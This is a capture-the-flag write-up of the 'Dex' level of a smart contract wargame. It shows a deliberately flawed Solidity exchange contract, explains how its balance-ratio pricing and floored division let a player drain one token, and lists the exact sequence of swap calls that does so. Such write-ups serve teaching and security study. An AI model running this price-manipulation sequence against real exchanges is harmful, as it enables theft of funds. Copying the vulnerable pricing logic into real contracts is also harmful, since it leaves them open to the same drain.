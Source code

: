 # 22 - Dex

## Challenge

The goal of this level is for you to hack the basic [DEX](https://en.wikipedia.org/wiki/Decentralized_exchange) contract below and steal the funds by price manipulation. You will start with 10 tokens of `token1` and 10 of `token2`. The DEX contract starts with 100 of each token.

## Quick Note

Normally, when you make a swap with an ERC20 token, you have to `approve` the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the `approve` method to the contract itself. So feel free to use `contract.approve(contract.address, <uint amount>)` instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the `SwappableToken` contract otherwise.

Things that might help:

- How is the price of the token calculated?
- How does the `swap` method work?
- How do you `approve` a transaction of an ERC20?

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## Summary

A long piece of code is provided. `SwappableToken` basically provides an `approve` interface to be used by `Dex.approve`, so we can ignore that.

The `Dex` contract has a `swap` method that swaps `token1` for `token2` and vice versa. The price is calculated by the `getSwapPrice` method, which is the ratio of the two token balances.

```js
function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}
```

The vulnerability of `getSwapPrice` is related with the division. In Solidity, division is floored. This means that after the swap, one party will have more tokens that it should have, and the other party will have less. We can simulate `swap` between player and contract as follows:

```
Dex token 1: 100
Dex token 2: 100
Usr token 1: 10
Usr token 2: 10
```

The first time we call swap token 1 for token 2 (means player token 1 becomes 0), the swap price is just `10 * 100 / 100 = 10`.

```
Dex token 1: 110 (+10)
Dex token 2: 90  (-10)
Usr token 1: 0   (-10)
Usr token 2: 20  (+10)
```

Now if we swap token 2 for token 1 (`to` is token 1), the swap price is `20 * 110 / 90 = 24`. Here we can observe a rounding already.

```
Dex token 1: 86  (-24)
Dex token 2: 110 (+20)
Usr token 1: 24  (+24)
Usr token 2: 0   (-20)
```

Keep doing this:

```
Dex token 1: 110  (+24)
Dex token 2: 80   (-30)
Usr token 1: 0    (-24)
Usr token 2: 30   (+30)

Dex token 1: 69   (-41)
Dex token 2: 110  (+30)
Usr token 1: 41   (+41)
Usr token 2: 0    (-30)

Dex token 1: 110  (+41)
Dex token 2: 45   (-65)
Usr token 1: 0    (-41)
Usr token 2: 65   (+65)
```

Since `65 * 110 / 45 = 158 > 100`, we can swap part of token 2 now to get all 110 token 1. `110 * 45 / 110 = 45`, so we just need 45 token 2.

```
Dex token 1: 0   (-110)
Dex token 2: 90  (+45)
Usr token 1: 110 (+110)
Usr token 2: 20  (-45)
```

Done.

## Walkthrough

First approve, then swap as mentioned above until drained token 1.

```js
> await contract.approve(contract.address, 500)
{tx: '0x58a10396dcd83987f81be0db19c38e9131e7449f75c22891990a4662608239ce', receipt: {…}, logs: Array(0)}
> t1 = await contract.token1()
'0x29af11aF0d67445dCfFFEa4792313c9BC6e7A096'
> t2 = await contract.token2()
'0x56B0F59855355DF9922c53e5305c3b1f0c34b78f'
> await contract.swap(t1, t2, 10)
{tx: '0x3359d4b489315b8c0c398ba853eebaafd56472b1e6eb445778ee8ac4bc02a481', receipt: {…}, logs: Array(0)}
> await contract.swap(t2, t1, 20)
{tx: '0xc21ed486e7d9fa881380b4242bd7cc90692e3ebac4f1fc362e0417631624d848', receipt: {…}, logs: Array(0)}
> await contract.swap(t1, t2, 24)
{tx: '0x85063ff107458ea676f96599c1d27ef23fcc422b743474bc1a0c7de2c32bbebb', receipt: {…}, logs: Array(0)}
> await contract.swap(t2, t1, 30)
{tx: '0x6b66431881edf445e4fc7c1d6c1d13210eba9ef1b6837cdfeb9ccd12e9f3bafc', receipt: {…}, logs: Array(0)}
> await contract.swap(t1, t2, 41)
{tx: '0x212c5fe94d41069537b7f10ba352de23da9d0038f80437575de27969e9a68ba8', receipt: {…}, logs: Array(0)}
> await contract.swap(t2, t1, 45)
{tx: '0x09e1fc084769423a66bbcbe605ae4a3ee738170873f13e4a9e28ff3898224cc9', receipt: {…}, logs: Array(0)}
> await contract.balanceOf(t1, instance).then(v => v.toString())
'0'
```

Finally, submit the instance to pass the level.

## Afterword

The integer math portion aside, getting prices or any sort of data from any single source is a massive attack vector in smart contracts.

You can clearly see from this example, that someone with a lot of capital could manipulate the price in one fell swoop, and cause any applications relying on it to use the the wrong price.

The exchange itself is decentralized, but the price of the asset is centralized, since it comes from 1 dex. However, if we were to consider tokens that represent actual assets rather than fictitious ones, most of them would have exchange pairs in several dexes and networks. This would decrease the effect on the asset's price in case a specific dex is targeted by an attack like this.